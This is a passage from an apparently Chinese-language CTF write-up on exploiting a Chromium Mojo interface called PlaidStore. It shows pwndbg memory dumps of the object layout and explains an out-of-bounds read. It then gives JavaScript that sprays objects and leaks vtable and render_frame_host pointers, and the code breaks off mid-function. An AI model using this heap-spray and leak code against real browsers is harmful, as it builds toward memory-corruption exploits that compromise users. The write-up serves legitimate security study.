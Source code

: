 `0x55555ac584b0`是`new`函数，可以跟进去该函数然后用`frame`命令确定。

```asm
pwndbg> frame
#0  0x000055555ac584b0 in operator new(unsigned long, std::nothrow_t const&) ()
```

因此可以确定`PlaidStoreImpl`对象大小为`0x28`，也可以看到后面虚表指针以及`render_frame_host`的赋值，最终形成的内存布局如下：

```asm
pwndbg> x/6gx 0x284976549f30
0x284976549f30: 0x000055555f50a7a0      0x000028497640bd00   ; vtable | render_frame_host_
0x284976549f40: 0x0000284976549f48      0x0000000000000000   ; data_store_
0x284976549f50: 0x0000000000000000      0x0000000000000000

pwndbg> vmmap 0x284976549f30
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x28497627a000     0x284976979000 rw-p   6ff000 0       +0x2cff30
```

再看`p.storeData("xxxxx", new Uint8Array(0x28).fill(0x41)`执行完成后的内存布局，如下所示：

```asm
pwndbg> x/6gx 0x284976549f30
0x284976549f30: 0x000055555f50a7a0      0x000028497640bd00
0x284976549f40: 0x00002849765f5b40      0x00002849765f5b40
0x284976549f50: 0x0000000000000001      0x0000000000000000
pwndbg> x/10gx 0x00002849765f5b40
0x2849765f5b40: 0x0000000000000000      0x0000000000000000
0x2849765f5b50: 0x0000284976549f48      0x000055555824ff01
0x2849765f5b60: 0x0000007878787878      0x0000000000000000
0x2849765f5b70: 0x0500000000000000      0x0000284976881e10
0x2849765f5b80: 0x0000284976881e38      0x0000284976881e38
pwndbg> x/s 0x2849765f5b60
0x2849765f5b60: "xxxxx"
pwndbg> x/s 0x0000284976881e10
0x284976881e10: 'A' <repeats 40 times>

pwndbg> vmmap 0x0000284976881e10
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x28497627a000     0x284976979000 rw-p   6ff000 0       +0x607e10

```

可以看到我们能够越界读取的数据`0x0000284976881e10`所属的地址空间和`PlaidStoreImpl`对象所属的地址空间是同一片区域，这样就使得如果在存储的数据后部署多个`PlaidStoreImpl`对象，那么就可以通过越界读取`PlaidStoreImpl`对象中的数据。

因为`PlaidStoreImpl`对象中有虚表指针以及`render_frame_host_`指针，我们就可以越界读把这些数据读出来，最终构造出来的代码如下。要提一个技巧就是搜寻地址是虚表指针因页对齐低三位地址以及高位都是确定的，通过这个方法可以大概率找到对象。

```js
async function Leak()
{
    let plaidStorePtrList = [];
    for(let i=0; i<0x200; i++) {
        let p = blink.mojom.PlaidStore.getRemote(true);
        await(p.storeData("xxxxx", new Uint8Array(0x28).fill(0x41)));
        plaidStorePtrList.push(p);
    }
    let p = plaidStorePtrList[0];
    let leakData = (await p.getData("xxxxx", 0x2000)).data
    let u8 = new Uint8Array(leakData)
    let u64 = new BigInt64Array(u8.buffer);
    let vtableAddr = 0;
    for(let i=0x28/8; i<u64.length; i++) {
        let highAddr = u64[i]&BigInt(0xf00000000000)
        let lowAddr = u64[i]&BigInt(0x000000000fff)
        if((highAddr == BigInt(0x500000000000)) && lowAddr == BigInt(0x7a0)) {
            vtableAddr = u64[i];
```